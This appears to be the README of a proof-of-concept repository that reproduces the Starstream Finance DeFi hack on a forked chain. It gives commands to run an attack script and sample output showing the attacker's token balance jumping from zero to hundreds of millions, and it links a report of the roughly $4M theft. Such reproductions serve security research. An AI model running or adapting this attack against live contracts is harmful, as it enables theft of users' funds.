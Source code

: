 # Starstream Finance re-hack PoC

## How to run

Install nodejs/npm first

Run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
STARS balance of attacker: 0.0
Exploiting...
Exploit complete.
STARS balance of attacker: 532571155.858500207074071215
```
This means the attack is complete
> The block height of the fork is 2205883


## Link
* https://coincodecap.com/starstream-finance-hacked-around-4m-stolen
